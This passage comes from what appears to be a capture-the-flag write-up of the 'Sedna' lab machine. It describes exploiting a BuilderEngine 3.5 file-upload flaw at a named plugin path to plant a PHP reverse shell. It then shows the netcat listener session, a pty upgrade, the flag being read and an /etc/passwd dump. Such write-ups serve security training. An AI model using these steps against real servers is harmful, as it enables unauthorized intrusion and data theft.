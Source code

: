 + http://10.37.129.7/system/database/drivers/odbc/index.html (CODE:200|SIZE:142)

-----------------
END_TIME: Fri Jul  7 22:05:18 2017
DOWNLOADED: 62384 - FOUND: 16

{% endhighlight %}

After quite a bit of screwing around and running dirb/nikto I figured out the server was running BuilderEngine 3.5, with a search on exploit-db I was able to find a file upload vulnerability: themes/dashboard/assets/plugins/jquery-file-upload/server/php/ and upload a php reverse shell, then:

{% highlight  bash %}
sudo nc -vnlp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from 10.37.129.7 59854 received!
Linux Sedna 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
 00:53:28 up 1 day,  1:59,  0 users,  load average: 0.00, 0.01, 0.05
 USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Sedna:/$ ls
ls
bin   dev  home        lib     media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lost+found  mnt    proc  run   srv   tmp  var
www-data@Sedna:/$ whoami
whoami
www-data
www-data@Sedna:/$ uname -a
uname -a
Linux Sedna 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
www-data@Sedna:/$ cd /var/www
cd /var/www
www-data@Sedna:/var/www$ s
s
s: command not found
www-data@Sedna:/var/www$ ls
ls
flag.txt  html
www-data@Sedna:/var/www$ cat flag.txt
cat flag.txtbfbb7e6e6e88d9ae66848b9aeac6b289

{% endhighlight %}

{% highlight bash %}
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin